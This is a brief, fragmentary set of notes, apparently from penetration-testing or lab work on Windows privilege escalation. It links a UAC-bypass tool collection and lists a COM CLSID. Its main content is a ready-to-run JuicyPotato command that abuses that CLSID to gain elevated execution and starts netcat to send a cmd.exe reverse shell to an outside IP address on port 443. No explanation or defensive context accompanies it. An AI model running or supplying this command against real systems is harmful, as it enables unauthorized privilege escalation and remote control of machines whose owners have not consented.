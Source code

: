 
https://download.microsoft.com/download/5/8/9/58911986-D4AD-4695-BF63-F734CD4DF8F2/ws-commands.pdf

[UAC BYPASS](https://github.com/hfiref0x/UACME)



{03ca98d6-ff5d-49b8-abc6-03dd84127020}


JuicyPotato.exe -l 443 -p C:\\windows\\System32\\cmd.exe -a "/c c:\\users\\public\\Documents\\nc.exe -e cmd.exe 10.10.14.25 443" -t * -c {42CBFAA7-A4A7-47BB-B422-BD10E9D02700}
